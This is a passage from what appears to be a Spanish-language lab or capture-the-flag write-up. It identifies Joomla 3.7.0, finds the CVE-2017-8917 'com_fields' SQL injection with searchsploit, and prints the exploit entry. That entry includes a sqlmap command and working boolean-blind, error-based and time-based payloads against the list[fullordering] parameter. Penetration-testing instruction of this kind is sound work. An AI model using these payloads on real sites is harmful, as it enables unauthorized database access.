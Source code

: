 El resultado confirma que la versión del CMS Joomla es la `3.7.0` y nos muestra algunos directorios de interés, como por ejemplo `/administrator/` que corresponde al panel de administración.

## Análisis de vulnerabilidades

---

Ahora que conocemos la versión de Joomla, procedemos a buscar posibles exploits utilizando `searchploit`. Encontramos que esta versión es vulnerable a ataques de inyección SQL.

```bash
❯ searchsploit Joomla 3.7.0
---------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                      |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection                                                                                                          | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Site Scripting                                                                                       | php/webapps/43488.txt
---------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Al inspeccionar el contenido del exploit `php/webapps/42033.txt`, se muestra el código de la vulnerabilidad correspondiente al `CVE-2017-8917`, así como también la URL vulnerable, un comando para explotar la vulnerabilidad utilizando `sqlmap`, el parámetro vulnerable `list[fullordering]` y los payloads utilizados.

```bash
# Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
# Vendor Homepage: https://www.joomla.org/
# Version: = 3.7.0
# Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
# CVE : - CVE-2017-8917

URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27

Using Sqlmap:

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]

Parameter: list[fullordering] (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (DUAL)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)
```